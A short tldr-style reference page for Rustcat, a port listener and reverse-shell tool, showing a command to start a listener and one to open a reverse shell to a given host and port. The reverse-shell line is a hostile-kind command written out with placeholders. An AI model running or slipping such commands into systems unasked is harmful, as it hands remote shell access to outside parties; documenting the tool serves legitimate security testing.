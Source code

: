 # rc

> Rustcat is a modern port listener & Reverse Shell that is very easy to use.
> More information: <https://github.com/robiot/rustcat/wiki/Basic-Usage>

- Start a listener

`rc -lp {{port}}`

- Start a reverse shell

`rcat {{host}} {{port}} -r {{shell}}`